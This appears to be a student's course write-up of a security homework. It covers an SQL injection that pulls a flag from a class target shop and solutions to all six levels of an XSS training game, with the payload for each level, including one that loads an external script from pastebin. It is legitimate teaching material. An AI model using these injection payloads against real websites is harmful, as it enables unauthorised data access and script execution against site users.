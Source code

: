 # Web

## Part 1

Mark Thompson is back again! This time, you've found his online shop, but it is clear that he is still developing it. Show him that his site is vulnerable!

https://bigbenbargains.biz/briongshop

Submit the usual CMSC389R flag with your writeup to demonstrate that you successfully completed the homework assignment.


I began with trying an xss attack by adding this to the URL ```https://bigbenbargains.biz/briongshop/item?id=<script>alert('OhNo!');</script>```, this seemed to cause a server error:

![alt text](https://github.com/yreiss1/Web/blob/master/Server%20Error.png)


Next, I built upon my assumption that all the "items" and their information were stored in an SQL table somewhere, so I thought using some sort of SQL injection could work. I began buidling my injection by taking the SQL injection from the slides and modifying it to get this URL: ```https://bigbenbargains.biz/briongshop/item?id=1' OR '1'='1' -- -``` hoping that I could get ```id``` to evaluate to true, and then dump all the information. This proved succesful and I got this page with this flag: ```CMSC389R-{u_ar3_th3_SQL_ninja}``` 

![alt text](https://github.com/yreiss1/Web/blob/master/Flag.png)


## Part 2

Complete all 6 levels of:

https://xss-game.appspot.com/

#### Level 1

In order to beat this level, I simply queried ```<script>alert()</script>``` in the applications search bar, this was the correct answer and allowed me to move on to the next level.

#### Level 2

This level was more difficult to figure out than the last one, initially I tried to insert ```<script>alert();<\script>``` as a new status and in the URL, neither of these seemed to work. I tried an SQL injection using ```'1'='1' -- -``` just like I did in part 1 of this assignment, and that didn't work. While, looking at the source code I noticed that they did not do a good job of sanitizing input, and if I couldnt run javascript the same way I ran in Level 1 that I could hide it in some other form. In order to do this I simply added ```onerror = alert()``` to the URL which would run the javascript alert when the application encountered an error. Using this I suceeded and was allowed to move to the 3rd level.

![alt text](https://github.com/yreiss1/Web/blob/master/Level2.png)


### Level 3

For this level, I used a hint that told me ```To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.```, so I looked over the code and realized this line: ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";``` had a potential vulnerability. I could cause the image source to be something non-existant and then use ```onerror = alert();``` to be able to create an alert. My first attempt I used this URL: ```https://xss-game.appspot.com/level3/frame#' onerror = alert()``` but got this page:

![alt text](https://github.com/yreiss1/Web/blob/master/Level3.png)

But after realizing that I needed to format the html element in a way that would be equivelent to ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";```, I used this to produce the desired result: ```https://xss-game.appspot.com/level3/frame#0.jpg' onerror=alert();'```

### Level 4

For this level I took what I learned from the last level and searched for where the user input was bieng handled, I located one line of code that could be potentially vulnerable: ```<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />```. I thought that if I could replace the user input {{timer}} with something that would run my alert. So after some trial and error I used ```')alert('``` to produce the desired result.

### Level 5

Originally I tried injecting new things into the sign up bar, just like the previous few levels, but after a long run of unsuccesful attempts, I decided to try a different approach, the only other vulnerabilities I could think of is changing authorization using cookies, or manipulating the URL. Cookies were not relevant here so I tried messing with the URL, while looking over the code I noticed the ```next``` parameter would change with each new template render, so I thought i'd target that. I tried substituting ```alert()``` for confirm in the URL: ```https://xss-game.appspot.com/level5/frame/signup?next=confirm```, but this did not work. I noticed that I needed some way for the alert() to actually run, and not be just treated as part of the URL. So after some research I discovered that I could use ```javascript:alert()``` to achieve what I wanted to do, using this URL I managed to beat this level: ```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()```

### Level 6

For this level I realized that the only way to solve I was to manipulate the URL in some way so that it would run a external script. Glancing over the code I realized that the application was checking for any inputs containing ```http``` or ```https```, I also saw this block of code:

```
// Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

that led me to believe that I could use a site like pastebin to host my code, which would simply be comprised of ```alert("Hello")``` and then paste it in after ```frame#``` to get the solution, using this I was able to pass this level:

```https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/9sjtF2zG```


Here is the final picture!:

![alt text](https://github.com/yreiss1/Web/blob/master/Final.png)



